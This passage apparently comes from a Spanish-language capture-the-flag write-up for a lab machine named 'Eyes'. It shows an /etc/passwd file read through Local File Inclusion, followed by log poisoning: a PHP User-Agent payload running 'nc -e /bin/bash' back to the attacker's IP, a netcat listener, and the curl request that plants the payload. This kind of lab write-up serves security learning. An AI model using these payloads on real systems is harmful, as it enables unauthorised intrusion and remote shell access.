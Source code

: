```sh
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:101:102:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
systemd-network:x:102:103:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:103:104:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:104:110::/nonexistent:/usr/sbin/nologin
monica:x:1000:1000:monica,,,:/home/monica:/bin/bash
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
ftp:x:105:113:ftp daemon,,,:/srv/ftp:/usr/sbin/nologin
sshd:x:106:65534::/run/sshd:/usr/sbin/nologin
<!--Monica's eyes-->
```

Como podéis ver hemos sido capaces de ver el fichero **`/etc/passwd`**{: .filepath } de la máquina víctima. A este vulnerabilidad se le llama **`Local File Inclusion`** (**`LFI`**).

# Movimiento Lateral
### Shell
Para explotar esta vulnerabilidad y obtener una **`Shell`** necesitamos ayudarnos de otra vulnerabilidad llamada **`Log Poisoning`**. Como su propio nombre indica, trata de envenenar los **_logs_**, es decir, inyectar **`PHP`** que será interpretado.

Para conseguir una **`Reverse Shell`** accederé al fichero **`/var/log/nginx/access.log`**{: .filepath } (fichero que sirve para ver los registros de la web) con un **`User-Agent`** modificado.

Hay muchas maneras de conseguir ejecución remota de comandos, pero a mí me gusta ir directo y pasar a una **`Reverse Shell`**, por tanto este será mi **`User-Agent`**:

```php
<?php system('nc -e /bin/bash 192.168.1.108 4444'); ?>
```

Vemos que estamos llamando a una función de **`PHP`** para ejecutar un comando a nivel de sistema, en este caso lo hice con **`NetCat`** ya que resulta más fácil de ver.

Una vez explicado el procedimiento pasaré a la explotación, para ello me pondré en escucha con **`NetCat`**, en mi caso lo haré por el puerto `4444`:

```sh
┌──(root㉿kali)-[~/Desktop/VMs/HMV/Eyes]
└─# nc -nlvp 4444
listening on [any] 4444 ...
```

Ya estamos preparados para enviar la petición infectada, para mandarla utilizaré **`cURL`**:

```sh
┌──(root㉿kali)-[~/Desktop/VMs/HMV/Eyes]
└─# curl http://192.168.1.113/?fil3=/var/log/nginx/access.log -H "User-Agent: <?php system('nc -e /bin/bash 192.168.1.108 4444'); ?>"
192.168.1.108 - - [10/Jul/2023:16:03:13 -0400] "GET /?fil3=/etc/passwd HTTP/1.1" 200 1486 "-" "curl/7.87.0"
<!--Monica's eyes-->
```
